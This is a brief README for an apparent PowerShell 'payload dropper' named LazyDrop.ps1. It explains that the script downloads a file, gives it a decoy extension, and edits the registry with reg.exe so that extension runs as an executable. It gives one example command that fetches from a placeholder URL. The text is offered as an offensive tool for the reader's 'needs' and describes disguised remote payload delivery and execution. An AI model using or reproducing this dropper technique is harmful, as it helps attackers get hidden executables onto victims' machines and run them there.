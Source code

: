 Greetings
--------------------

this is a payload droper ps1 script for your needs

use reg.exe to make the obsolete ext given to the file when downloaded execute the file properly with

its correct ext

Example :
-------------------------

.\LazyDrop.ps1 -Url "https://example.com/file" -EnvVariable "USERPROFILE" -FileType "jplg" -RegistryEntry "exefile"